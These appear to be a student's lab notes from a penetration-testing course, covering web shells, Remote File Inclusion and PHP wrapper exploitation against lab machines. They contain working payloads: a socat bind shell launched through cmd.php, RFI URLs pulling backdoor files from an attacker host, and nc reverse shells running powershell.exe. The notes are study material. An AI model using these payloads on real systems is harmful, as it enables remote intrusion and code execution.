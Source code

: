 5.  As the third and final step, you now need to get a full shell on the target VM #3 and, not just any full shell, but a fully interactive TTY shell on the new and improved Taco Trunk website. To make your life easier, this website already has a web shell at _/cmd.php_ (no need to repeat what you have already done with polluting the logs, but you can if you really want!). This challenge exposes the internal **port 60000** (nothing is listening yet on this port) to enable the use of a bind shell instead of a reverse shell callback. Once you have a fully interactive tty shell, execute _flag_ from inside this shell to get the flag to this challenge. NOTE: The Python interpreter available on the box is named _python2.7_.
	1. Inspect source code of *cmd.php* web shell
		1. ![[Pasted image 20221219204319.png]]
	2. Test web shell
		1. `http://192.168.209.52/cmd.php?cmd=whoami`
		2. ![[Pasted image 20221219204405.png]]
	3. Open listener for bind shell with **socat**
		1. `http://192.168.209.52/cmd.php?cmd=socat%20TCP-L:60000%20EXEC:/bin/sh`
	4. Connect to listener from Kali
		1. `socat TCP:192.168.209.52:60000 -`
	5. Upgrade to pty
		1. `python2.7 -c 'import pty; pty.spawn("/bin/bash")'`
		2. ![[Pasted image 20221219231244.png]]

## Remote File Inclusion
On local Kali machine:
1. Create payload to obtain web shell on attacker's machine
	1. ![[Pasted image 20221219235948.png]]
2. Exploit RFI using `http://192.168.209.10/menu.php?file=http://192.168.119.209/evil.txt&cmd=ipconfig`
	1. ![[Pasted image 20221220000136.png]]
3. Look for included webshells at `/usr/share/webshells/php`
4. Edit webshell and place in `/var/www/html/`
	1. ![[Pasted image 20221220222017.png]]
5. Exploit RFI to get a web shell
	1. ![[Pasted image 20221220222253.png]]
6. Use the web shell to get a reverse shell on the Windows 10 machine
```bash
# On Attacker machine
sudo nc -lvnp 5566

# On browser of victim webserver
http://192.168.209.10/menu2.php?file=http://192.168.119.209/simple-backdoor.txt?&cmd=nc%20192.168.119.209%205566%20-e%20powershell.exe
```

## PHP wrappers
1. Exploit the LFI vulnerability using a PHP wrapper
	1. `http://192.168.209.10/menu.php?file=data:text/plain,<?php echo shell_exec("whoami")?>`
	2. ![[Pasted image 20221220230349.png]]
2. Use a PHP wrapper to get a shell on your Windows 10 lab machine.
	1. On attacker Kali: `nc -lvnp 5566`
	2. On web server URL: `http://192.168.209.10/menu.php?file=data:text/plain,<?php echo shell_exec("nc 192.168.119.209 5566 -e powershell.exe")?>`
	3. ![[Pasted image 20221220230334.png]]